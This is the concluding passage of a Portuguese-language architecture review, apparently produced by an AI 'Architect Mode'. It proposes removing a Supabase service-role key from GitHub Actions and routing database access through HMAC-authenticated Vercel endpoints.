- [workflow-intelligence-refactor.md](/plans/workflow-intelligence-refactor.md) - Contexto do Workflow Intelligence

---

## ✅ Conclusão

Esta revisão arquitetural propõe uma migração **crítica para segurança** que elimina a exposição do `SUPABASE_SERVICE_ROLE_KEY` nas GitHub Actions. A arquitetura proposta:

1. **Remove** o risco de exfiltração da chave de serviço
2. **Centraliza** acesso ao banco em endpoints seguros (Vercel)
3. **Implementa** autenticação forte (HMAC + timestamp)
4. **Permite** auditoria completa de todas as operações
5. **Mantém** compatibilidade com todas as fases P4.x planejadas

**Próximo passo:** Aguardar esclarecimento das dúvidas acima para iniciar implementação.

---

*Documento criado por Architect Mode*  
*Última atualização: 2026-02-23*  
*Versão: 1.0.0*
